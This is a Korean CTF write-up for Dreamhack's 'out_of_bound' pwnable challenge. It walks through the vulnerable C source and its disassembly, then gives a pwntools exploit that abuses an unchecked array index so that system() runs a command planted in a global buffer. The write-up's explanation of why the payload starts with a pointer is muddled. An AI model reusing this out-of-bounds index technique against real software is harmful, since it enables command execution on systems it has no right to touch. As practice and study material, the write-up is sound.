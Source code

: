 ```yaml
---
published: true
image: /img
layout: post
title: &#91;Dreamhack&#93; out_of_bound 문제풀이
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-03-07 21:00
---
```


<h4 style="color:red">제가 공부하면서 적은 내용으로 틀린 내용이 있을수 있으니 지적해주시면 정정하겠습니다. 감사합니다.</h4><hr><br>

out of bound(OOB)는 버퍼의 길이를 벗어나는 인덱스를 참조하려 할때 발생할 수 있는 취약점이다.
<br>
이번 문제의 소스코드를 먼저 살펴보자.

```C
char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

main함수를 따라가면서 살펴보면 먼저 관리자 이름을 name이라는 변수에 입력 받는다. 이후 What do you want?라는 문구와 함께 어떤 작업을 실행할 것인지 int형을 scanf로 입력 받는다. 이후 입력받은 값을 idx라는 변수에 넣고 system함수를 통해 command[idx]를 실행하고 프로그램은 종료한다.

system함수는 C언어 내부에서 쉘을 사용할 수 있는 기능을 제공하며 배열 10이 할당되어 있으나 scanf에서는 입력받는 크기가 제한이 없는것을 볼수 있다. 이부분을 공략하면 될 것 같다.

일단 같이 제공된 바이너리를 peda를 통해 disas main 해보자.
```shell
   0x080486cb <+0>: 	lea    ecx,[esp+0x4]
   0x080486cf <+4>: 	and    esp,0xfffffff0
   0x080486d2 <+7> :	push   DWORD PTR [ecx-0x4]
   0x080486d5 <+10>:	push   ebp
   0x080486d6 <+11>:	mov    ebp,esp
   0x080486d8 <+13>:	push   ecx
   0x080486d9 <+14>:	sub    esp,0x14
   0x080486dc <+17>:	mov    eax,gs:0x14
   0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
   0x080486e5 <+26>:	xor    eax,eax
   0x080486e7 <+28>:	call   0x804867b <initialize>
   0x080486ec <+33>:	sub    esp,0xc
   0x080486ef <+36>:	push   0x8048811
   0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
   0x080486f9 <+46>:	add    esp,0x10
   0x080486fc <+49>:	sub    esp,0x4
   0x080486ff <+52>:	push   0x10
   0x08048701 <+54>:	push   0x804a0ac
   0x08048706 <+59>:	push   0x0
   0x08048708 <+61>:	call   0x80484a0 <read@plt>
   0x0804870d <+66>:	add    esp,0x10
   0x08048710 <+69>:	sub    esp,0xc
   0x08048713 <+72>:	push   0x804881e
   0x08048718 <+77>:	call   0x80484b0 <printf@plt>
   0x0804871d <+82>:	add    esp,0x10
   0x08048720 <+85>:	sub    esp,0x8
   0x08048723 <+88>:	lea    eax,[ebp-0x10]
   0x08048726 <+91>:	push   eax
   0x08048727 <+92>:	push   0x8048832
   0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
   0x08048731 <+102>:	add    esp,0x10
   0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
   0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
   0x0804873e <+115>:	sub    esp,0xc
   0x08048741 <+118>:	push   eax
   0x08048742 <+119>:	call   0x8048500 <system@plt>
   0x08048747 <+124>:	add    esp,0x10
   0x0804874a <+127>:	mov    eax,0x0
   0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
   0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
   0x08048759 <+142>:	je     0x8048760 <main+149>
   0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
   0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048763 <+152>:	leave  
   0x08048764 <+153>:	lea    esp,[ecx-0x4]
   0x08048767 <+156>:	ret 
```
우선 집중해서 봐야할 부분은 name의 주소값과 command의 주소값인것 같다.

name    : 0x804a0ac<br>
command : 0x804a060

각 주소값의 거리를 계산해 보면 name(0x804a0ac) - command(0x804a060) = 0x4C이다.
4C를 10진수로 변환하면 76이고 포인터 배열이 하나당 4바이트씩 할당하니 76/4를 하면 19가 나온다.

name의 위치는 command주소로 부터 [19]만큼 떨어져 있다고 볼수 있다.
그럼 name에는 "/bin/sh"를 주고 idx를 19를 입력하면 될것 같다.

여기서 조심해야 할 것이 system함수이다.

system 함수는 외부 라이브러리이기 때문에 변수주소_4바이트+exec_code(인수)로 구성되어 있다고 한다. 예를 들어 system("cat flag"); 이라는 명령어를 실행하면 메모리에는 변수주소_4바이트 + cat flag가 들어간다. 따라서 결과 리턴을 위한 name+4의 값과  cat flag를 인수로 줘야 한다.

이제 파이썬을 이용해 익스플로잇 코드를 짜보자

```python
from pwn import *

conn = remote("host2.dreamhack.games", 16966)

print(conn.recv())

payload = p32(0x804a0ac+4) #name주소 + 4byte
payload += b"cat flag"
print(payload)
conn.sendline(payload)
print(conn.recv())

conn.sendline(b"19")
print(conn.recvall().decode('utf-8'))
```

위 코드를 실행하면 플레그 값을 얻을 수 있다.
이번 문제를 풀면서 system함수의 어셈블리 호출규약을 알아볼 필요성을 느꼈다.
좀더 공부를 하고 포스팅 내용을 보충해야 겠다.


